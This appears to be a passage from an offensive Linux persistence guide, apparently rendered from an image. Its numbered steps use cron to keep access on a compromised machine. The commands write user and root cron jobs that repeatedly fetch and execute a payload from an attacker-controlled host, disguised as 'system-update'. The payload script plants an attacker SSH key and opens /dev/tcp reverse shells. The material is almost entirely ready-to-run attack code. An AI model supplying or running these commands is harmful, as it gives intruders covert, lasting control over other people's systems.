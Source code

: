 Alternative: periodic fetch+execute (more reliable across shells)
```
( crontab -l 2>/dev/null; \
  echo 'SHELL=/bin/bash'; \
  echo 'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'; \
  echo '*/5 * * * * /usr/bin/curl -fsSL http://'"$LHOST"'/p.sh | /bin/bash >/dev/null 2>&1' \
) | crontab -
```
On attacker box, serve payload:
```
# Simple HTTP server
python3 -m http.server 80

# Example payload p.sh
cat > p.sh << 'EOF'
#!/bin/bash
# Example: maintain SSH key and call back once
mkdir -p /home/$USER/.ssh
echo "ssh-ed25519 AAAA... attacker@host" >> /home/$USER/.ssh/authorized_keys
chmod 700 /home/$USER/.ssh
chmod 600 /home/$USER/.ssh/authorized_keys
# One-time reverse shell
bash -c 'exec 3<>/dev/tcp/LHOST/LPORT; /bin/sh -i <&3 >&3 2>&3' >/dev/null 2>&1
EOF
sed -i "s/LHOST/$LHOST/g; s/LPORT/$LPORT/g" p.sh
```

5) System-wide persistence via /etc/cron.d (root)
```
# Create a root cron.d entry (must be owned by root, not group/world-writable)
sudo bash -c "cat > /etc/cron.d/system-update << 'EOF'
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MAILTO=''
# Every 10 minutes fetch-and-execute
*/10 * * * * root /usr/bin/curl -fsSL http://$LHOST/p.sh | /bin/bash >/dev/null 2>&1
# On reboot after 60s, call back
@reboot root /bin/bash -c 'sleep 60; exec 3<>/dev/tcp/$LHOST/$LPORT; /bin/sh -i <&3 >&3 2>&3' >/dev/null 2>&1
EOF
chmod 644 /etc/cron.d/system-update
chown root:root /etc/cron.d/system-update"

# Verify cron sees it (no restart strictly needed)
sudo grep -n 'system-update' /etc/cron.d/system-update
```

6) System-wide persistence via cron.hourly (run-parts rules)
- run-parts only executes filenames matching [A-Za-z0-9_-]+ (no dots), and scripts must be executable.
```
sudo bash -c 'cat > /etc/cron.hourly/system-update << "EOF"
#!/bin/sh
/usr/bin/curl -fsSL http://'"$LHOST"'/p.sh | /bin/sh >/dev/null 2>&1
EOF
chmod 755 /etc/cron.hourly/system-update
chown root:root /etc/cron.hourly/system-update'
```
